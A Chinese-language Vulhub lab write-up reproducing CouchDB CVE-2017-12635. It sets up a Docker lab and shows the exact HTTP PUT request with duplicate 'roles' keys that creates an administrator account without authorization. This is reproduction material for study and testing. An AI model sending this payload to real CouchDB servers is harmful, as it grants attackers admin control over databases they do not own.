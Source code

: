 # Couchdb 垂直权限绕过漏洞 CVE-2017-12635

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Vulhub编译及启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

## 漏洞复现

访问`http://your-ip:5984/_users/org.couchdb.user:vulhub`，如果出现404错误：`{"error":"not_found","reason":"Database does not exist."}`，则说明当前Couchdb的初始化未完成，数据库不存在，需要手动进行配置。

Vulhub目录下存在init.sh文件：

```
┌──(root💀kali)-[/home/…/vulnerability/vulhub/couchdb/CVE-2017-12635]
└─# cat init.sh
#!/bin/bash

COUCHDB_URL=${COUCHDB_URL:-"couchdb:5984"}
COUCHDB_AUTH=${COUCHDB_AUTH:-"admin:password"}

while ! curl -m 5 "${COUCHDB_URL}"; do
    sleep 1
done

curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_users
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_replicator
curl -X PUT http://${COUCHDB_AUTH}@${COUCHDB_URL}/_global_changes
```

依次执行命令，初始化Couchdb，新建`_users`、`_replicator`、`_glocal_changes`三个数据库：

```
curl -X PUT http://admin:password@192.168.174.128:5984/_users 
curl -X PUT http://admin:password@192.168.174.128:5984/_replicator
curl -X PUT http://admin:password@192.168.174.128:5984/_global_changes
```

![image-20220222100506110](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221005221.png)

配置完成后，发送如下数据包：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

![image-20220222100650526](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221006605.png)

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色

发送包含两个roles的数据包，即可绕过限制：

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

成功创建管理员，账户密码均为`vulhub`：

![image-20220222100732534](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221007617.png)

再次访问`http://your-ip:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![image-20220222100904867](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221009954.png)

